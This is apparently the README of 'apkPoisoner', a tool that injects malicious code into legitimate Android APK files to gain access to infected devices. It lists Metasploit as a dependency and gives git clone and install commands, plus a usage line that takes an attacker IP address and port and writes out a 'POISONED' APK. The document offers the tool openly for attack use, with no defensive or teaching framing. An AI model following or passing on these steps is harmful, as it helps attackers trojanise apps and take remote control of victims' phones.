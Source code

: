 # apkPoisoner
Tool created to inject malicious code inside a legitimate apk in order to gain access to the infected device.

# DEPENDENCIES
 - java
 - metasploit-framework
 - sponge
 - wget

# INSTALLATION

```bash
git clone https://github.com/Invertebr4do/apkPoisoner.git
cd apkPoisoner && chmod +x apkPoisoner.sh
```

# USAGE

```bash
./apkPoisoner.sh -i [IP_ADDRESS] -p [LOCAL_PORT] -a /PATH/TO/APK.apk 
```
> The malicious apk file is saved on **[APKPOISONER_DIRECTORY]/out/POISONED_[APP_NAME].apk**

![](https://github.com/Invertebr4do/apkPoisoner/blob/main/video/apkpoisoner_poc.gif)
